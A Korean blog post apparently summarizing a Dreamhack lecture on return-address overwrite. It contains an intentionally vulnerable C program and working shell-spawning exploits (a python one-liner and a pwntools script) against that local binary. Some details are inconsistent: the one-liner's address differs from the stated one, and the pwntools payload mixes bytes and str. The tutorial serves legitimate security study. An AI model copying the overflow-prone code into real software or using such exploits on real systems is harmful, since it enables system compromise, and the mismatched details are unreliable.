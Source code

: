 ```yaml
---
title: "[pwnable] Return To Overwrite"
date: 2022-02-08T00:00:00+00:00
author: 이정목
layout: post
permalink: /return-to-overwrite/
categories: pwnable
tags: [dreamhack, pwnable, return to overwrite]
---
```


**해당 포스팅은 드림핵의 강의를 정리한 글이다.** Return to Overwrite는 스택 버퍼 오버플로우를 이용해서 return 자리의 주소를 내가 원하는 주소로 바꾸는 것이다. 따라서 스택에서 어느 위치에 버퍼가 위치해 있고, 얼마만큼을 overwrite해야 하는지를 잘 따져 주어야 한다. 해당 이미지는 [드림핵](https://dreamhack.io/learn/58#7)에 있는 그림을 가져온 것이다. 내가 함수 호출 규약을 설명한 [글](https://mok0102.github.io/호출-규약/)을 보면 제대로 알 수 있다.  

![이미지](https://kr.object.ncloudstorage.com/dreamhack-content/page/ba14b1d45d74d46ab7f84d20ec60a4806f9d42bb29d2fb6f434cf152d9b0a76c.png) 

## 스택 구조
함수 스택이 새로 생성되면, 함수 파라미터들이  제일 주소가 큰 쪽(아래쪽)에 쌓이고, 그 다음에 돌아가기 위한 ret주소가 실리고, 그 위에 이전 스택 프레임의 시작 지점(sfp)가 실린다. 그 위에 이제 buf처럼 해당하는 변수들이 쌓이게 된다. 따라서 스택은 위로(주소가 큰 쪽에서 작은 쪽으로) 자란다. 그러나 우리가 buf에 값을 쓰는 건 위에서 아래로 써진다.(주소가 작은 쪽에서 큰 쪽으로) 결국 우리가 buf에서 값을 쓰기 시작하면 그 밑에 있는 sfp, ret에까지 침범할 수 있게 된다는 것이다. 이게 stack buffer overflow이고, 특별히 이 ret부분에 내가 실행하고자 하는 함수의 주소를 넣는 것이 return to overwrite이다. 

## 문제
우리는 다음 c 코드에서 쉘을 따는 익스플로잇을 Return to Overwrite를 통해 구현할 것이다. 아무런 보호 기법을 아직 적용하지 않고 문제를 풀 것이기 때문에 gcc 옵션으로 -fno-stack-protector와 -no-pie를 준다.
```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie
#include <stdio.h>
#include <unistd.h>
void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
int main() {
  char buf[0x28];
  init();
  printf("Input: ");
  scanf("%s", buf);
  return 0;
}
```

## 문제 풀이
#### 1. 밀어야 할 크기 구하기
위 그림의 스택 구조에서, buf와 sfp를 모두 A와 같은 아무 문자열로 밀어 버리고 ret에 get_shell의 구조를 넣으면 쉘을 딸 수 있다. 따라서 가장 먼저 해야 하는 것은 buf와 sfp가 얼마나의 공간을 차지하고 있는가이다. 그걸 알아야 몇개의 A로 buf와 sfp를 깔끔하게 밀 수 있는지를 알 수 있을 테니까. 가장먼저, 64비트 체계이기 때문에 스택 한 칸의 크기는 0x8이다. 만약 32비트라면 0x4가 된다. 따라서 buf는 찾아봐야겠지만, sfp는 0x8만큼 차지하고 있다고 알 수 있다. 
이제, buf가 얼마나 공간을 차지하는지를 찾아볼 것이다. buf가 0x28만큼 공간을 차지하고 있다고 생각하고 buf 0x28, sfp 0x8해서 0x28+0x8만큼 민다고 생각할 수 있는데, 내가 느끼기로는 c코드만 보고서는 buf의 크기를 정확하게 알 수 없다. 0x28일 때도 있고, alignment라고 해서 8의 배수를 맞추기 위해? 조금 더 커질 때도 있다. 근데 내 경험상 8의 배수랑도 상관이 잘 없는 거 같고, 그냥 gdb로 buf의 크기가 얼마만큼 할당됬는지를 보는 게 제일 마음 편하다. 
![이미지](https://github.com/JungMok-Lee/JungMok-Lee.github.io/blob/master/assets/images/2022_02_09_gdb_main.png?raw=true){: width="500" height="500"}
밑의 그림을 보면, push rbp(이 Push된 자리에 sfp가 들어간다) 이후 sub rsp, 0x30을 하는데, 지금 rsp가 sfp자리를 가리키고 있는 상태에서 rsp가 위로 0x30만큼 올라갔으므로, buf의 크기가 0x30임을 알 수 있다. 
**결국 buf의 크기: 0x30, sfp의 크기: 0x8이므로 우리가 ret까지 가려면 총 0x38만큼을 아무 문자로 밀어주면 된다.**

#### 2. ret자리에 들어가야 할 것 구하기
지금 함수 중에 get_shell이라는 함수를 만들어 줬기 때문에, 굳이 막 라이브러리의 shell함수를 실행하지 않고 그냥 이 파일 자체의 get_shell함수의 주소를 ret자리에 넣어 주면 프로그램이 이게 return 주소인줄 착각하고 get_shell을 실행시킨다. 그럼 get_shell의 주소는 어떻게 구하면 될까? 모든 보호기법이 해제되어 있기 때문에, 프로그램을 실행할 때마다 get_shell의 주소가 바뀌는 복잡한 상황은 생기지 않는다. 따라서 get_shell의 주소를 다이나믹하게 구할 필요가 없고 그냥 상수처럼 한번 딱 찾아서 계속 그걸 쓰면 된다. 그럼 get_shell의 주소는 어떻게 찾을까? 여러가지 방법이 있다. 나는 gdb에 info func을 쳐서 나오는 모든 함수들의 주소 중에 get_shell을 찾아서 사용했는데, 단순히 그냥 print get_shell을 gdb에 입력하면 그 함수에 대한 정보를 주면서 주소도 같이 준다. 어떤 방법을 사용하던 상관 없다! 밑에서 구한 주소는 0x4006aa였다.

![이미지](https://github.com/JungMok-Lee/JungMok-Lee.github.io/blob/master/assets/images/2022_02_09_get_shell.png?raw=true)

#### 3. 익스플로잇 작성
###### 1) 커멘드
커멘드로 바로 보낼 수도 있는데, 여기서 주의해야 할 점은 실행파일이 64비트 little endian이므로 get_shell의 주소를 Little endian으로 바꿔서 보내야 한다는 것이다. 파이썬에 -c 옵션을 주어서 파이썬 실행 결과를 rao파일을 실행하면서 보낸다. 외워 두면 그래도 어느 정도 좋을 것 같다.
```python
(python -c "print 'A'*0x30 + 'A'*0x8 + '\xa7\x05\x40\x00\x00\x00\x00\x00'";cat)| ./rao
```

###### 2) pwntools
1번 방법을 나는 잘 몰라서 pwntools로 작성했다. rao 실행파일과 연결 후, input을 받기 전까지(Input: 이 터미널에 띄워 질때까지) 기다린다. 이후 페이로드로 0x38만큼 밀고, p64를 써서 get_shell의 주소를 little endian으로 보낸다. p64이므로 64비트로 패킹해준다. p32는 little endian으로 32비트로 패킹해준다. 이렇게 보내고 나면 익스플로잇이 완료되었으므로, 쉘과 인터렉티브하게 주고받기 위해 p.interactive()를 보낸다. 

```python
from pwn import *
p = process("./rao")

p.recvuntil("Input: ")

payload = b'A'*0x30 + 'A'*0x8
payload += p64(0x4006aa)

p.sendline(payload)

p.interactive()
```
